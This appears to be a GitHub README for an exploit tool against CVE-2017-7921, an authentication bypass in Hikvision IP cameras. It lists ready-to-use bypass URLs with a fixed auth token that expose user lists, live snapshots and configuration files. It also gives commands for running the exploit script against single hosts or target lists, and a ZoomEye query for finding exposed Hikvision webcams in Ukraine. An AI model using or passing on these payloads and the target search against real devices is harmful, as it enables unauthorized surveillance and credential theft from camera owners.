 # CVE-2017-7921 Exploit

An Improper Authentication issue was discovered in Hikvision  devices.

​    The improper authentication vulnerability occurs when an application does not adequately or correctly authenticate users.

​    This may allow a malicious user to escalate his or her privileges on the system and gain access to sensitive information.



​    https://seclists.org/fulldisclosure/2017/Sep/23



​    Vulnerability details:

​    \----------------------

​    Retrieve a list of all users and their roles:

​        http://camera.ip/Security/users?auth=YWRtaW46MTEK

​    Obtain a camera snapshot without authentication:

​        http://camera.ip/onvif-http/snapshot?auth=YWRtaW46MTEK

​    And worst of all, one can download camera configuration:

​        http://camera.ip/System/configurationFile?auth=YWRtaW46MTEK



## Install dependence

```python
python3 -m pip install -r requirements.txt
```

## Usage

```python3
python3 CVE_2017_7921_EXP.py -t xxx.xx.xx.xx run
python3 CVE_2017_7921_EXP.py -t ./targets.txt run
```

## Screenshot

![](./Screenshot.jpg)


## Search Devices
网站：https://www.zoomeye.org/

检索式：
```python
country:"UA" +device:"webcam" +app:"Hikvision IP camera httpd" +port:"80"
```